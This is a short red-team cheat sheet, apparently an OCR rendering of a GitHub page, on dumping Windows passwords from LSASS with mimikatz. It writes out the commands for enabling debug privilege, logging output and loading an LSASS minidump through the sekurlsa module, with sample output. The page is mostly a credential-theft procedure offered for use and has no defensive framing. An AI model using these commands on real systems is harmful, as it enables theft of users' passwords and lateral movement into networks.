 # Windows - Dumping Passwords from LSASS

**Must have SeDebugPrivilege**

```
mimikatz# privilege::debug
Privilege '20' OK
```

Checking if debug levels are correct

```
mimikatz# log <log_file>
Using 'log_file' for logfile : OK

mimikatz# log /stop
```

Turning on logging to output to file (Starting and stopping)

```mimikatz# sekurlsa::minidump lsass.dmp```

Dumping password from lsass dump

**References**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa
